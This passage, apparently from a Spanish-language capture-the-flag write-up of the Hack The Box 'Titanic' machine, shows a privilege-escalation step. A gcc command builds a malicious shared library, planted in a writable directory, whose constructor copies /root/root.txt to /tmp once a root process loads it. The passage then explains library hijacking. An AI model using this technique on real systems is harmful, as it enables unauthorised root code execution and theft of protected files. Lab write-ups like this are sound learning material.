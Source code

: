 Podemos crear una librería maliciosa en la que se ejecute un comando para obtener la flag.

```bash
cd /opt/app/static/assets/images/
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF
```

Hemos creado una librería maliciosa en la ruta `/opt/app/static/assets/images/` que cuando se cargue, ejecuta un comando para obtener la flag.

Ahora podemos forzar la carga de la librería visitando la web por ejemplo.

![alt text](/assets/img/posts/titanic_htb/image-10.png)

Ahora si podemos ver la flag root.txt en la ruta /tmp/.

![alt text](/assets/img/posts/titanic_htb/image-11.png)

Esta es una técnica de "Library Hijacking" o "Library Preloading", donde se aprovecha que:

- Linux busca bibliotecas compartidas en cierto orden
- Si podemos escribir en alguno de esos directorios
- Un proceso root carga esa biblioteca
- Podemos hacer que ejecute nuestro código como root